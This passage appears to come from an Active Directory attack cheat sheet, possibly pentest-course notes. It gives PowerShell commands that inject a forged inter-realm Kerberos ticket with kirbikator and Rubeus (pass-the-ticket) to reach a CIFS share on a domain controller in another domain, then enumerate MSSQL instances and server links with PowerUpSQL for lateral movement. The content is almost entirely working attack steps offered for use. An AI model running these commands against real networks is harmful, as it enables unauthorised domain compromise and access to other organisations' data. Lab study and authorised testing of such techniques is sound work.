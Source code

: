 ```
PS C:\> .\kirbikator.exe lsa .\CIFS.test3-dc.domain2.local.kirbi
```

- Check if the TGS is available

```
PS C:\> klist
```

- Attempt to access the resource we requested access to

```
PS C:\> ls \\test3-dc.domain2.local\SharedwithTest\
```

- Request a TGS for any service (CIFS below) in the target domain using the forged inter-realm TGT and Rubeus

```
PS C:\> .\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:cifs/test3-dc.domain2.local /dc:test3-dc.domain2.local /ptt

PS C:\> ls \\test3-dc.domain2.local\SharedwithTest\
```

### MSSQL Servers

- PowerUpSQL link

https://github.com/NetSPI/PowerUpSQL

- Import the PowerUpSQL module

```
PS C:\> Import-Module .\PowerUpSQL-master\PowerUpSQL.psd1
```

- Enumerate MSSQL instances (SPN scanning) (looks for SPN's starting with MSSQL)

```
PS C:\> Get-SQLInstanceDomain
```

- Check accessibility as current user

```
PS C:\> Get-SQLConnectionTestThreaded
OR
PS C:\> Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

- Gather information about the MSSQL instance

```
PS C:\> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

- Checking for links to remote servers (make sure to check DatabaseLinkLocation)

```
PS C:\> Get-SQLServerLink -Instance test-mssql -Verbose
OR
select * from master..sysservers        # MSSQL query (heidisql -> Network Type: Microsoft SQL Server (TCP/IP) -> Hostname: test-mssql -> Use Windows Authentication -> Open -> Query -> select * from master..sysservers -> Play Button
```
